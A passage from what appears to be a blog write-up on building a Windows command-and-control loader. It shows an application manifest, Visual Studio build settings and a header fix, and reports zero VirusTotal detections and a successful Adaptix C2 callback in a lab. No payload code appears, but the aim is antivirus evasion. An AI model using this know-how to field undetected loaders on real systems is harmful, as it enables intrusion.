  <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
    <security>
      <requestedPrivileges>
          <!--
            UAC settings:
            - app should run at same integrity level as calling process
            - app does not need to manipulate windows belonging to
              higher-integrity-level processes
            -->
          <requestedExecutionLevel
              level="asInvoker"
              uiAccess="false"
          />   
      </requestedPrivileges>
    </security>
  </trustInfo>

  <!-- OS compatibility -->
  <compatibility xmlns="urn:schemas-microsoft-com:compatibility.v1">
    <application>
        <!-- Windows 10 and Windows 11 -->
        <supportedOS Id="{8e0f7a12-bfb3-4fe8-b9a5-48fd50a15a9a}"/>
        <!-- Windows 8.1 -->
        <supportedOS Id="{1f676c76-80e1-4239-95bb-83d0f6d0da78}"/>
        <!-- Windows 8 -->
        <supportedOS Id="{4a2f28e3-53b9-4441-ba9c-d69d4a4a6e38}"/>
        <!-- Windows 7 -->
        <supportedOS Id="{35138b9a-5d96-4fbd-8e2d-a2440225f93a}"/>
        <!-- Windows Vista -->
        <supportedOS Id="{e2011457-1546-43c5-a5fe-008deee3d3f0}"/> 
    </application>
  </compatibility>

  <!-- DPI awareness -->
  <application xmlns="urn:schemas-microsoft-com:asm.v3">
    <windowsSettings>
      <dpiAware
        xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        true
      </dpiAware>
    </windowsSettings>
  </application>

</assembly>
```

Next, in **Project properties > Linker > Manifest File**, ensuring that **Generate Manifest** is **Yes**, I set **Enable User Access Control (UAC)** to **No** as I already defined the same in the XML above.

Within **Project properties > Manifest Tool > Input and Output > Additional Manifest Files** I added my `app.manifest` file.

Finally, while building the project I encountered the following errors:



To include macro definitions, I prefixed `#include <windef.h>` before `#include "resource.h"` include statement, it further fixed all other build errors mentioned above so I flew with it.

### Benchmarking

This release build finally landed 0 detections on VirusTotal.


## In the trenches

Throwing this final build onto my SOC-SIEM lab gave me successful connection onto Adaptix C2. Unlike the previous attempt where a debug build (may be helping in lowering entropy) was the loader that succeeded, here the final release build was used.

